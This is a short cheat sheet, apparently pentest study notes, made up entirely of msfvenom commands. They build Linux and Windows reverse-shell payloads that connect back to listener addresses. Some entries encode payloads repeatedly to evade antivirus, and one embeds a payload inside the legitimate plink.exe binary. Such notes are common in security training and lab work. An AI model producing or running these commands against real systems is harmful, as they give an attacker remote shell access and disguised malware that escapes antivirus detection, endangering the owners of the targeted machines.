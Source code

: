 ## Reverse shell 32 bit:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.18 LPORT=6666 -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform linux
```

## Reverse shell 64 bit:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.
174 LPORT=13005 -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f elf -a x64 --platform linux
```

## Creat an elf.so file (useful for some exploits)

```
msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp LHOST=192.168.92.134 LPORT=4444 -f elf-so -o payload.so
```

## Run encoder multiple times in order avoid AV

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

## Inject payload into executable

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

